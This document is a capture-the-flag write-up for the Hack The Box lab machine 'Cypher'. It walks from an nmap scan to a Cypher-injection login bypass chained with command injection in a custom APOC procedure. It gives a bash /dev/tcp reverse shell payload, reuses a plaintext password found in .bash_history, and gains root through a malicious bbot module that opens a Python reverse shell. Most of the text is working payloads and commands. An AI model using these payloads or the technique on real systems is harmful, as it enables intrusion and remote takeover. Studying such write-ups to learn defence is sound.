








# Enumeration

## Port Scan
Let's start by scanning the target with Nmap:

```bash
sudo nmap -sC -sV 10.10.11.57
```

### Scan Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 21:27 +00
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 10.71 seconds
```

## Exploring Port 80
Since port 80 is open, let's check the web server:



Let's run `dirsearch` while manually exploring the site.

```bash
dirsearch -u http://cypher.htb/ -t 50
```

We found a login page. Checking the source code reveals an interesting hint:

```javascript
  <script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
      var password = $("#passwordfield").val();
      $.ajax({
        url: '/api/auth',
        type: 'POST',
        contentType: 'application/json',
        data: JSON.stringify({ username: username, password: password }),
        success: function (r) {
          window.location.replace("/demo");
        },
        error: function (r) {
          if (r.status == 401) {
            notify("Access denied");
          } else {
            notify(r.responseText);
          }
        }
      });
    }
  </script>
```

This suggests a potential **Cypher Injection** vulnerability. Testing with special characters like `\'` confirms our suspicion.



## Exploiting Cypher Injection
Checking `dirsearch` results, we find a `/testing` endpoint:



It contains a custom APOC extension that may be vulnerable. Let's download and reverse-engineer it:

```bash
java -jar cfr.jar custom-apoc-extension-1.0-SNAPSHOT.jar --outputdir decompiled
```

### Identifying the Vulnerability

Looking at the decompiled code, we find a weakness:



The application directly appends user input to a system command. We can exploit this by injecting a reverse shell payload:

```
example.com;bash -c "bash -i >& /dev/tcp/10.10.XX.XXX/9001 0>&1"
```

Using Cypher Injection, we craft the following payload:

```bash
admin' OR 1=1 CALL custom.getUrlStatusCode('example.com;bash -c "bash -i >& /dev/tcp/10.10.XX.XXX/9001 0>&1"') YIELD statusCode RETURN statusCode //
```

Setting up a listener:

```bash
nc -lvnp 9001
```

We successfully gain a shell:



## Privilege Escalation

### Identifying Another User
Checking `/etc/passwd`, we find another user, `graphasm`, whom we need to pivot to:



Examining `.bash_history`, we find a stored password:

```bash
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```

Trying it for `graphasm`:

```bash
ssh graphasm@10.10.11.57
```

And it works:



### Root Privilege Escalation

Running `sudo -l`, we see that we can run `bbot` as root. Checking its documentation, we find that it supports custom modules:



#### Creating a Malicious Module

```bash
mkdir -p /tmp/bbot/modules
nano /tmp/bbot/modules/rev.py
```

```python
from bbot.modules.base import BaseModule
import socket, subprocess, os
import pty

class rev(BaseModule):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.XX.XXX", 9001))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    pty.spawn("bash")
```

Next, we configure `bbot` to load this custom module:

```bash
nano /tmp/mypreset.yml
```

```yaml
module_dirs:
  - /tmp/bbot/modules
```

We set up our listener:

```bash
nc -lvnp 9001
```

Then, execute `bbot` as root:

```bash
sudo /usr/local/bin/bbot -t ecorp.htb -p /tmp/mypreset.yml -m rev
```